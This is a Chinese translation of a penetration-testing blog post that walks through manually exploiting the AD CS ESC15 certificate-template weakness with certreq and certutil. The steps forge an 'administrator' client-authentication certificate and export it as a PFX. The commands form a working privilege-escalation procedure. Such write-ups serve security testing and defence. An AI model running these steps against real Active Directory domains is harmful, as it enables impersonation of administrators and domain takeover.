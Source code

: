 #  AD CS ESC15 漏洞实例的特殊案例及其手动利用   
Mannu Linux  securitainment   2025-02-17 10:47  
  
> 【翻译】Curious case of AD CS ESC15 vulnerable instance and its manual exploitation  
>   
  
  
在这篇博文中，我们将探讨当域用户对 Webserver 模板具有注册权限时，如何手动利用 AD CS ESC15 漏洞实例。  
## 概述  
  
在一次评估中，我与   
Dominic  
 先生交谈时，他提到了由   
TrustedSec  
 团队发现的 AD CS ESC15 漏洞。  
  
在一次内部基础设施渗透测试中，我和同事注意到一个易受 ESC15 漏洞影响的 webserver 模板，但在我们的案例中，面临以下挑战：  
- 不是"Domain Computers"，而是"Domain Users" AD 组对 Webserver 模板具有注册权限。因此，该 webserver 模板在 Windows Certificate Enrollment 向导中不可见。  
  
- AD CS RPC 端点在咨询顾问机器上被防火墙阻止。  
  
- AD CS web 注册接口未启用。  
  
当前设置显示 Domain Users 组对 Webserver 证书模板具有注册权限。但是，另一台 Windows 主机显示域用户无法使用 webserver 模板发出证书请求：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOib9micKd4QEXxwEodNUgxJ3SCYu6MtY44kXwlyqQnicicEj8oNqqg7f4scobpINaKa0NS7UK0raTRIA/640?wx_fmt=png&from=appmsg "")  
## 手动利用  
  
为了利用它，我决定使用 Windows certreq 二进制文件创建并提交证书请求。为此，我们需要一个包含所有必要信息的 INF 文件（  
从这里下载  
），其中包括：  
- Subject name（第 5 行）  
  
- Alt Name（第 27 行）  
  
以及  
- 在 Application Policies 扩展下设置的 Client Authentication 属性（已配置）  
  
配置完 INF 文件中的参数后，让我们继续进行利用步骤。  
### 生成证书签名请求（CSR）  
  
打开命令提示符/PowerShell 并执行以下命令来创建 CSR 文件：  
```
certreq -new web.inf b0x8.csr
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOib9micKd4QEXxwEodNUgxJ3nhfgLtxK4lkD6iaGFKib9WfsHZLvTEC6Gias0m3vfEbQtcX9l8TSvDiawA/640?wx_fmt=png&from=appmsg "")  
  
现在，我们有了一个需要提交给 AD Certificate Authority 的 CSR 文件。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOib9micKd4QEXxwEodNUgxJ3KeibZx6DaO3KEpRhoWc7fRKicBkXQfgXRLQfYGMvt4jvUPcOVfdACGQg/640?wx_fmt=png&from=appmsg "")  
  
### 提交生成的 CSR  
  
要查找 Certificate Authority(CA) 地址，执行以下命令：  
```
certutil -dump | findstr Config
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOib9micKd4QEXxwEodNUgxJ38dUpzeB3r9fZCQibacDlQT4bcY7nafnbvJSLzmqgiccX6nupTNRkgjfQ/640?wx_fmt=png&from=appmsg "")  
  
在下面的命令中，指定 CA 地址（-config 参数的值）、CSR 文件名（b0x8.csr）和证书文件名（administrator.cer）  
```
certreq -submit -q -config "DC01.queen.indishell.lab\queen-DC01-CA" b0x8.csr administrator.cer

```  
  
成功的请求将返回"Certificate retrieved Issued"消息：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOib9micKd4QEXxwEodNUgxJ3h8ibwFnh5Ewf2aPuaabUb6XSVibz5NZp2ghnyHmtTR13t1z32bkRVkicg/640?wx_fmt=png&from=appmsg "")  
  
### 安装和提取证书  
  
现在，从 CA 服务器颁发的证书 (administrator.cer) 中提取证书的 Thumbprint。  
  
使用以下命令：  
```
certutil -dump administrator.cer | findstr /c:"Cert Hash(sha1)" | for /f "tokens=3-22" %f in ('more') do @echo %f%g%h%i%j%k%l%m%n%o%p%q%r%s%t%u%v%w%x%y
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOib9micKd4QEXxwEodNUgxJ3chXKJZygJibnQWTcnrxVV5mtOPLjAicIJJAlD6BfDsCwfAfVhVzczQvQ/640?wx_fmt=png&from=appmsg "")  
  
执行以下命令将颁发的证书安装到当前用户的证书存储区：  
```
certreq -accept administrator.cer

```  
  
安装颁发的证书后，它将在当前登录用户的证书存储区中可用：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOib9micKd4QEXxwEodNUgxJ3TQAmwtA6wvszXcNTHemB5E8UMAgCT7cTR3ZZrqN4oW3bWN6sxcnQJw/640?wx_fmt=png&from=appmsg "")  
  
要将这个新安装的证书提取为 PFX 格式，需要指定一个您选择的密码（在我的例子中是 b0xed@33），我们在上一步中提取的证书指纹，以及用于存储 PFX 证书的输出文件名（在我的例子中是 administrator.pfx）  
```
certutil -exportPFX -user -p b0xed@33 My 2fde2333dd3c0748b3057d9dd958d01f53ccb5d6  administrator.pfx

```  
  
certutil  
 命令成功将证书及其私钥导出为 PFX 格式：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOib9micKd4QEXxwEodNUgxJ3gak2MiaqB1FiaK2fIY9uHmGhArkO3tib7OpvOZY6FK7ibNlpJA9mazUkMw/640?wx_fmt=png&from=appmsg "")  
  
要验证所请求证书的详细信息（如 Subject Alternative Name 和 Application Policies 扩展的属性）是否正确设置，请执行以下命令并从已颁发的证书中导出详细信息  
```
certutil -dump administrator.cer

```  
  
命令输出显示证书是使用 Webserver  
 模板请求的，在 Application Policies  
 扩展下设置了 Client Authentication  
 属性，并且 Subject Alternative Name  
 被设置为 administrator：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOib9micKd4QEXxwEodNUgxJ3G23HzDnjibHq7yGHsUhOPQOPic2OiakQP3Vhiak6kibug6qdN0aLN6fPM1w/640?wx_fmt=png&from=appmsg "")  
  
要进行进一步的利用，请使用 CertiPy  
 工具或 PasstheCert  
 工具，详见   
https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html  
 这篇博客文章  
  
